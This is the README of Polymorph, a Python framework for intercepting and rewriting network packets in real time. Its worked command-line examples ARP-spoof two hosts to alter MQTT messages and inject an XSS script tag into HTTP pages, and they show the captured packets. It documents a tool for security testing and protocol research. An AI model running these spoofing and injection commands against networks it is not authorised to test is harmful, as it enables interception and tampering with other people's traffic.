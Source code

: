 # Polymorph

Polymorph is a framework written in Python 3 that allows the modification of network packets in real time, providing maximum control to the user over the contents of the packet. This framework is intended to provide an effective solution for real-time modification of network packets that implement practically any existing protocol, including private protocols that do not have a public specification. In addition to this, one of its main objectives is to provide the user with the maximum possible control over the contents of the packet and with the ability to perform complex processing on this information.


# Installation

## Download and installation on Linux (Recommended)

Polymorph is specially designed to be installed and run on a Linux operating system, such as Kali Linux. Before installing the framework, the following requirements must be installed:

```
apt-get install build-essential python-dev libnetfilter-queue-dev tshark tcpdump python3-pip wireshark
```
After the installation of the dependencies, the framework itself can be installed with the Python pip package manager in the following way:
```
pip3 install --process-dependency-links polymorph
```

## Docker environment

From the project root:
```
docker-compose up -d
```
To access any of the machines of the environment:
```
docker exec -ti [polymorph | alice | bob] bash
```

# Using Polymorph

The Polymorph framework is composed of two main interfaces:

 - **Polymorph:** It consists of a command console interface. It is the main interface and it is recommended to use it for complex tasks such as modifying complex protocols in the air, making modifications of types in fields of the template or modifying protocols without public specification.
 - **Phcli:** It is the command line interface of the Polymorph framework. It is recommended to use for tasks such as modification of simple protocols or execution of previously generated templates.

## Using the Polymorph main interface
For examples and documentation please refer to:

-   [English whitepaper](https://github.com/shramos/polymorph/blob/master/doc/whitepaper/whitepaper_english.pdf)
-   [Spanish whitepaper](https://github.com/shramos/polymorph/blob/master/doc/whitepaper/whitepaper_spanish.pdf)
-   [Building a Proxy Fuzzer for the MQTT protocol with Polymorph](http://www.shramos.com/2018/04/building-proxy-fuzzer-for-mqtt-protocol.html)

## Using the Phcli

### Modifying packets that implement the MQTT protocol

Let's see how to use the Polymorph command line interface to spoof the communication between two machines and modify MQTT protocol.

 - Let's start by seeing how the Polymorph framework dissects the MQTT Publish packet.
```
# phcli -p mqtt --show-fields --in-pkt test_topic

[INFO] Waiting for a network packet which implements the MQTT protocol
[INFO] The packet will be dissected to show its fields
[OK] Sniffing process started. Waiting for packets...
[OK] Packet captured. Printing the fields...

---[ RAW.MQTT ]---
str hdrflags          = 0 (0x00000030)
int msgtype           = 48 (3)
int dupflag           = 48 (0)
int qos               = 48 (0)
int retain            = 48 (0)
int len               = 24 (24)
int topic_len         = 10 (10)
str topic             = test_topic (test_topic)
str msg               = test_message (test_message)
```

 - Now that we know how polymorph dissects the MQTT Publish packets and how it names the fields, we are going to modify the `msg` field by spoofing the two remote machines that communicate using MQTT.

```
# phcli -s arp -tg 192.168.1.102 -g 192.168.1.121 -p mqtt -f msg -v "new_value" --in-pkt "test_topic"

[OK] ARP spoofing started between 192.168.1.121 and 192.168.1.102
[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 75
  id        = 28767
  flags     = DF
  frag      = 0
  ttl       = 63
  proto     = tcp
  chksum    = 0x471e
  src       = 192.168.1.102
  dst       = 192.168.1.121
  \options   \
###[ TCP ]### 
     sport     = 49198
     dport     = 1883
     seq       = 4046645883
     ack       = 938260113
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 229
     chksum    = 0x7526
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (3643906, 1823353))]
###[ Raw ]### 
        load      = '0\x16\x00\ntest_topicnew_value'
```

### Modifying packets that implement the HTTP protocol

Let's see a last example modifying HTTP packets in localhost to inject a simple XSS. After executing the command simply navigate with your browser through an HTTP page.
```
# phcli -p tcp --in-pkt "</html>" -b "\-54:\-20" -v '"><script>alert("hacked")</script>' -ipt "iptables -A INPUT -j NFQUEUE --queue-num 1"

[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 898
  id        = 9382
  flags     = DF
  frag      = 0
  ttl       = 54
  proto     = tcp
  chksum    = 0xef66
  src       = 194.150.169.131
  dst       = 192.168.0.167
  \options   \
###[ TCP ]### 
     sport     = http
     dport     = 52210
     seq       = 3481765999
     ack       = 2589984605
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 2049
     chksum    = 0x3df4
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (4180691237, 3065344385))]
###[ Raw ]### 
        load      = 'm Mongo\n10.  Elite World News by Dr. Dude\n11.  Elite World News by Dr. Dude\n\n\nComing soon...\n\n                                 Phrack Jolt!\n\n                       All the VMBs and TWICE the c0deZ!\n_______________________________________________________________________________\n</pre>\n\n</div>\n</div>\n\n</center>\n\n<div align="center" class="texto-2-bold">\n[ <a href="../../index.html" title="News">News</a> ]\n[ <a href="../../papers/dotnet_instrumentation.html" title="Paper Feed">Paper Feed</a> ]\n[ <a href="../../issues/69/1.html" title="Issues">Issues</a> ]\n[ <a href="../../authors.html" title="Authors">Authors</a> ]\n[ <a href="../../archives/" title="Archives">Archives</a> ]\n[ <a href="../../contact.html" title="Contact">Contact</a> ]\n</div>\n\n<div align="right" class="texto-1">\xc2\xa9 Copyl"><script>alert("hacked")</script>iv>\n</body>\n</html>\n'
```

# Release Notes
[release-notes-1.0.0](https://github.com/shramos/polymorph/blob/master/doc/release-notes/release-notes-1.0.0.md)

# Contact

[shramos@protonmail.com](mailto:shramos@protonmail.com)
